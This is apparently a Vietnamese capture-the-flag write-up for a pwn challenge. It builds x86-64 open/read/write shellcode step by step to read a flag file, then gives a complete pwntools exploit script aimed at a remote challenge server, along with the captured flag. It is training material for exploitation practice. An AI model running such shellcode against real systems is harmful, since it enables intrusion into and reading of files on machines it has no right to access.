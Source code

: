# SHELLCODE (pwn)

> Dễ mà tự viết đi trên trên mạng không có đâu
>
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

## Exploit

- Kiểm tra chương trình với `file`, là file binary 64bit

  ![file-check.png](images/file-check.png)

- Kiểm tra với `checksec`, NX được tắt, có thể exploit bằng shellcode, nhưng chỉ giới hạn ở các hàm `open`, `read`, `write`

  ![checksec-check.png](images/checksec-check.png)

- Chạy chương trình, ta cần đọc file `PhaPhaKhongCoDon.txt`

- Đầu tiên là đẩy tên file vào stack, mỗi lần như thể thỉ tối đa 8 bytes nên phải thực hiện 3 lần, lúc này `PhaPhaKhongCoDon.txt` nằm tại `rsp`

  ```python
    'mov rax, %d' % u64(b'.txt\0\0\0\0'),
    'push rax',
    'mov rax, %d' % u64(b'ongCoDon'),
    'push rax',
    'mov rax, %d' % u64(b'PhaPhaKh'),
    'push rax',
  ```

- Sau đó mở file, với syscall number là 0x2, tên file sẽ vào `rdi`, nên sẽ `mov` tên file từ `rsp`, và mode `O_RDONLY = 0`

  ```python
  'mov rax, 0x2',
  'mov rdi, rsp',
  'xor rsi, rsi',
  'xor rdx, rdx',
  'syscall',
  ```

  ![open.png](images/open.png)

- Sau đó ta sẽ đọc file, đầu tiên file descriptor được lưu ở rax, nên `mov` vào `rdi`, với buffer để lưu dữ liệu trong file, nhằm chắc chắn thanh ghi có có địa chỉ, ta sẽ sử dụng `rsp`, và buffer size sẽ là `0x50`. Syscall number là 0x0

  ```python
  'mov rcx, rax',
  'xor rax, rax',
  'mov rdi, rcx',
  'mov rsi, rsp',
  'mov rdx, 0x50',
  'syscall',
  ```

  ![read.png](images/read.png)

- Cuối cùng là in flag ra, với buffer như ở trên sẽ là `rsp`, độ dài sẽ được lưu ở `rax`

  ```python
  'mov rcx, rax',
  'mov rax, 0x1',
  'mov rdi, 0x1',
  'mov rsi, rsp',
  'mov rdx, rcx',
  'syscall'
  ```

- Như vậy, có được code exploit: [ShellCode.py](ShellCode.py)

  ```python
  from pwn import *


  #p = process('./shellcode')

  p = remote('45.122.249.68', '10017')

  context.clear(arch='amd64', os='linux')

  payload = asm('\n'.join([
      'mov rax, %d' % u64(b'.txt\0\0\0\0'),
      'push rax',
      'mov rax, %d' % u64(b'ongCoDon'),
      'push rax',
      'mov rax, %d' % u64(b'PhaPhaKh'),
      'push rax',

      'mov rax, 0x2',
      'mov rdi, rsp',
      'xor rsi, rsi',  # open
      'xor rdx, rdx',
      'syscall',

      'mov rcx, rax',
      'xor rax, rax',
      'mov rdi, rcx',  # read
      'mov rsi, rsp',
      'mov rdx, 0x50',
      'syscall',

      'mov rcx, rax',
      'mov rax, 0x1',
      'mov rdi, 0x1',  # write
      'mov rsi, rsp',
      'mov rdx, rcx',
      'syscall'
  ]))

  p.sendline(payload)
  p.interactive()
  ```

  ![flag.png](images/flag.png)
> Flag: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}
